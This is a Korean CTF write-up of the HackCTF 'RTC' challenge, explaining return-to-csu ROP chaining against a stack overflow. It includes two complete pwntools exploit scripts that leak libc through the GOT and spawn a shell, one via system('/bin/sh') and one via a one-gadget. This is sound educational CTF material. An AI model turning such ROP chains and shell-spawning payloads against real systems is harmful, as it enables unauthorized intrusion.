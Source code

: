 ```yaml
---
title: "[HackCTF]RTC"
date: 2019-12-22
tags: [HackCTF]
categories: [HackCTF]
---
```


Return To Csu에 대해 이론 공부하고 나서 HackCTF RTC를 풀게되었는데 Chaining하는게 좀 재밌었다. 

`__libc_csu_init` 이용해서 Exploit하는건데 이해하는대로 풀었다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [rsp+0h] [rbp-40h]

  setvbuf(stdin, 0LL, 2, 0LL);
  write(1, "Hey, ROP! What's Up?\n", 0x15uLL);
  return read(0, &buf, 512uLL);
}
```

gadget이 부족하기 때문에 일반적인 ROP를 할 수 없어서 RTC를 이용하면 된다.

main 함수에서 buf 크기가 0x40인데 512만큼 받으니까 ret을 `__libc_csu_init ` 주소로 돌려서 Chaining 해주면서 풀면 된다.

![](https://user-images.githubusercontent.com/32904385/71322849-b767ed00-250f-11ea-8c4b-68c2d8da8d67.png)

`0x4006BA` 부터 pop으로 레지스터 세팅해주고  `0x4006A0` 으로 `ret` 을 해줘서 인자 `edi`, `rsi` , `rdx` 를 각각 세팅해주고 함수  `0x4006A9` 에서 호출하기 할 수 있다. 

`0x4006BA` 부터 레지스터에 넣는거 이용해서 `0x4006A9` 에서 `call`하면 된다.

Chaining 계속하려면 `add rbx, 1` , `cmp rbx, rbp` 를 맞춰줘야 하니까 pop 레지스터 세팅해주는 곳에서 rbx를 0으로 맞춰서 `call qword ptr [r12+rbx*]` 에서 r12에 got주소 넣고 rbx에 0을 넣으면 그 함수를 실행할 수 있다.

그러니까 rbx에 0을 넣으니까 rbp는 1로 맞춰줘야 계속 Chaining을 할 수 있다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
#p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> write_got -> call
# r13 -> rdx -> write(?,?,8)
# r14 -> rsi -> write(?,write_got,8)
# r15d -> edi -> write(1,write_got,8)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(10) + p64(e.bss()) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,10)
# r14 -> rsi -> write(?,bss,10)
# r15d -> edi -> write(0,bss,10)
# ret -> csu_call
payload += p64(csu_pop) # set
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(8) + p64(e.got['read']) + p64(0) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call
# r13 -> rdx -> read(?,?,8)
# r14 -> rsi -> write(?,read_got,8)
# r15d -> edi -> write(0,read_got,8)
# ret -> csu_call
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(e.got['read']) + p64(0) + p64(0) + p64(e.bss()) + p64(csu_call)
# rbx -> 0 
# rbp -> 1
# r12 -> read_got -> call -> system
# r13 -> rdx -> 0
# r14 -> rsi -> 0
# r15d -> edi -> system(bss) -> system("/bin/sh\x00")
# ret -> csu_call
p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('write : ' + hex(libc_base))

p.sendline('/bin/sh\x00')

p.sendline(p64(libc_base + libc.symbols['system']))

p.interactive()
```

다른 방법으론 oneshot gadget 이용해서 풀었다. libc base 구했으니까 main으로 리턴해주고 원샷 날려주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
p = remote('ctf.j0n9hyun.xyz',3025)
# p = process('./rtc')
e = ELF('./rtc')
libc = ELF('./libc.so.6', checksec=False)
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6', checksec=False)

csu_pop = 0x00000000004006BA
csu_call = 0x00000000004006A0

payload = 'A'*72
payload += p64(csu_pop) 
payload += p64(0) + p64(1) + p64(e.got['write']) + p64(8) + p64(e.got['write']) + p64(1) + p64(csu_call)
payload += p64(csu_pop)
payload += p64(0) + p64(1) + p64(0) + p64(0) + p64(0) + p64(0) + p64(e.symbols['main'])

p.sendafter('?\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['write']
log.info('libc_base : ' + hex(libc_base))

oneshot = 0x4526a
payload2 = 'A'*72
payload2 += p64(libc_base + oneshot) 

p.sendafter('?\n',payload2)
p.interactive()
```

